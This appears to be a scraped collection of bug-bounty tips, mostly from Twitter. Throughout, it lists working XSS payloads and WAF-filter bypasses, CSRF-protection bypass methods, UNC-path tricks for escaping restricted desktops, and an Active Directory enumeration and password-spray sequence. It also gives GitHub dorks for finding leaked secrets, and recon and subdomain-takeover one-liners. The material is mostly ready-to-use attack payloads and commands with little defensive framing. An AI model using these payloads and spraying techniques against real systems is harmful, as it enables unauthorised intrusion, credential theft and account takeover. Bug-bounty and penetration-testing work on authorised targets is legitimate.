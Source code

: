 ## Tips



@PaulosYibelo

Disable/Bypass DOMPurify by abusing the XSSAuditor, site/?a=<script type="text/javascript" src="src/purify.js"></script> will block the script if the site doesn’t return X-XSS-Protection: 0;

------------------------------------


Having a breakout exercise and direct drive access is forbidden? Perhaps try these too:
\\localhost\d$
\\127.0.0.1\d$
file:\\127.0.0.1\d$
\\--1.ipv6-literal.net\d$
\\http://0--1.ipv6-literal.net\d$
\\--0-1.ipv6-literal.net\d$
file://--0-1.ipv6-literal.net\d$

---------------------------------------------

1) amass enum -config config.ini -brute -w all.txt
2) Identify hosts, not previously found.
3) gobuster -u http://example.com -w content_discovery_nullenc0de.txt
4) Read through the JS files gobuster found.
5) Browse to links identified in JS.
6) Download list of APIs/pass.

-----------------------------------------

WAF bypass w/ Tab html entity for obfuscation

XSS payload:
<iframe src=java&Tab;sc&Tab;ript:al&Tab;ert()></iframe>

Renders as:
<iframe src="java    sc    ript:al    ert()"></iframe>

--------------------------------------------


Here's a small #XSS list for manual testing (main cases, high success rate).

"><img src onerror=alert(1)>
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)

Try it on:
- URL query, fragment & path;
- all input fields.

------------------------------------------



Here's a regular expression for extracting variable names from JS. I'll be using the results for parameter fuzzing.

/(?<=(var|const|let) )([A-Za-z0-9_]+?)(?=(;|,|=| ))/g

It's far from perfect, but I'm not great with regex.


------------------------------------


Quick Tip: While you are trying to find more subdomains and you use the Google Dork:  site:*.example.com, NEVER forget to check
site:*.*.example.com and
site:*.*.*.example.com 


-------------------------------

Everything patched? Good baselines? Find NULL Sessions!
1) Find your DC's
nmap -sS -p3268,3269 -iL subnets.txt
2) Enumerate Users
enum4linux -U 192.168.x.x
3) Pull Password Policy
enum4linux -P 192.168.x.x
4) Password Spray Usernames
cme smb 192.168.x.x -u users.txt -p Summer2019

------------------------------------

Jin Wook Kim
@wugeej
[Guide Book] Bypassing CSRF Protection

1. Clickjacking
2. Change the request method
3. Delete the token param or send a blank token
4. Use another session’s CSRF token
5. Session fixation
6. CSRF Protection via Referer
7. Bypass the regex

-------------------------------
I bypassed an interesting xss protection with :
%3c<aa+ONLOAD+href=javasONLOADcript:promptONLOAD(1)%3e


https://twitter.com/sametsahinnet/status/1169223269708455944

---------------------------------------

hackbar plugin

https://twitter.com/CyberWarship/status/1169328352496365570

------------------------------------

Hussein Daher
@HusseiN98D
Analysis of an RCE I found past week. RT and Like if you want more! If you got a bug bounty program, I'm open to any invite :) #bugbounty #bugbountytip #bugbountytips #infosec

https://twitter.com/HusseiN98D/status/1170421494830305280

------------------------------------------

Recon Tip:

As javascript files are always full of secret information here is how to can use `grep` to extract comments inside JavaScript.

Example:

curl https://paypalobjects.com/api/checkout.js | grep '//'

-----------------------------------

XSS filter bypass using stripped </div> tags to obfuscate.  Multiple P2 Stored XSS on a private bug bounty program.

XSS Payload:
<</div>script</div>>alert()<</div>/script</div>

---------------------------------------------------


Dir scan on a subdomain -> Access to /api/admin HTTP 403 -> access to /api/admin.json HTTP 200 -> SMTP creds leaking -> no-reply company email takeover

Reported as a crit. Always try to add .json, you never know how the application router's going to behave #bugbountytips

-----------------------------------------------------------

#bugbountytips #bugbounty Top GitHub Dorks and Scan GitHub Repositories for Sensitive Data
password
dbpassword
dbuser
access_key
secret_access_key
bucket_password
redis_password
root_password
HOST=http://smtp.gmail.com
filename:.htpasswd
extension:sql mysql dump

----------------------------------------

/api POST Request 
 
&ul="><img+src=x+onerror=prompt(1);>.

/api Response
{
"errors": {
"ul": "Invalid value \"><img src=x onerror=prompt(1);>."
}
}

but no XSS "><"is being filtered with "&lt; &gt;"  is there any way to bypass these filters?

--------------------------------------------------------------------------

Quick and dirty way to find parameters vulnerable to LFI & Path Traversal & SSRF & Open Redirect:
Burp Search > Regex 
\?.*=(\/\/?\w+|\w+\/|\w+(%3A|:)(\/|%2F)|%2F|[\.\w]+\.\w{2,4}[^\w])

-----------------------

oneliner to open a bunch of hosts/urls #bugbountytips 

firefox `cat urls.txt | awk '{if(index($1,"http")){print $1}else{print "http://"$1;print "https://"$1}}' | tr "\n" " "`




firefox `cat urls.txt | awk '{if(index($1,"http")){print $1}else{print "http://"$1;print "https://"$1}}'
firefox `cat urls.txt | awk '{if(index($1,"http")){print $1}else{print "http://"$1;print "https://"$1}}' | tr "\n" " "`
 
chromium-browser `cat urls.txt | awk '{if(index($1,"http")){print $1}else{print "http://"$1;print "https://"$1}}'
chromium-browser `cat urls.txt | awk '{if(index($1,"http")){print $1}else{print "http://"$1;print "https://"$1}}' | tr "\n" " "`

-----------------------------------


Found easy xss

1. Subdomain enumeration
2. S3 bucket with access denied
3. Ffuf found -> /cdn/
4. Ffuf found -> /cdn/proxy.html
5. Blank page -> view source, found url param (document.location)
6. ?url=javascript:alert ()

--------------------------------------------


Account takeover
1. 1 account logged in 2 browsers
2. Tried signup with same account but showing email exist and redirect to signup page
3. In Firefox captured request of sign up submit >Do intercept > Response > Email exists

----------------------------------------------


Bug Bounty Tip for checking javascript files response which are stored in text file:

cat js_files_url_list.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk

-----------------------------------------

RCE story

http://1.site.com/admin
Forbidden
2.HTTP header in request - Login page access
3. Sqli queries tried no success
4. Some recon on gitlab - Found base64 pwd - decrypt
5. Accessed admin panel
6. Admin panel customized - CLI available
7. File read successful

---------------------------------------

<script>alert(1)</script> blocked by waf. 

Let's try <script>alert`1`</script

------------------------------------

find cname records

for ip in $(cat subdomain.txt);do dig asxf $ip | grep CNAME;done

------------------

evolution of an #xss WAF bypass 

<img src onerror=confirm(1)>

&gt;+src+onerror=confirm&lpar;1&rpar;&lt;

&gt;+src+onerror=confirm&amp;lpar;1&amp;rpar;&lt;

new tip: try double HTML entity encoding chars??? 

-----------------------------------------------------

Find subdomains and takeover
Grinning face with smiling eyes


subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/HAHWUL/tool/subjack/fingerprints.json -v 3 >> takeover ;